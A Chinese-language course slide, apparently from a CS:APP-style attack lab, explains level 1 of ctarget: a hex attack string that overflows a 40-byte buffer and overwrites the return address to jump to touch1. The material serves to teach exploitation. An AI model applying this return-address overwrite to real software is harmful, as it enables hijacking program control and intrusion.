

# 任务1：ctarget level1
设计字符串输入给ctarget，造成缓冲区溢出,转向执行touch1
攻击字符串：
无符号字节数据，十六进制表示，字节间用空格隔开，如：
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
fb 1d 40 00 00 00 00 00

返回地址

…
buf[39-32]
buf[31-24]
…
buf[07-00]
rSP
攻  击  字  符  串
 -2-
000000000401dfb <touch1>: